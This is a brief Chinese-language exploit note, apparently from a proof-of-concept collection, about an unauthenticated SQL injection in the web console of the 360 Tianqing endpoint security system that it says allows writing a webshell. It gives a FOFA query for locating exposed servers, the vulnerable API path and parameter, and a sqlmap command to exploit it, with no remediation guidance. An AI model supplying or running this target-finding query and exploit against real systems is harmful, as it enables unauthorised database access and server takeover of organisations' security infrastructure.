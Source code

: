 ## 0x00 漏洞背景

        360天擎是一套终端安全管理系统，有客户端和Web端，漏洞出现在Web端，可以未授权访问的API，该API存在SQL注入漏洞，可导致直接写入Webshell
        
        FOFA语句 app="360天擎终端安全管理系统"
        
## 0x01 漏洞利用

        /api/dp/rptsvcsyncpoint?ccid=1
        
        
## 0x02 检测结果

        python sqlmap.py -u https://x.x.x.x:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL
        
        
        


 ![图片](https://user-images.githubusercontent.com/118274389/229656369-c2b5d26e-88a7-449e-b0e2-1029cdaafbf5.png)


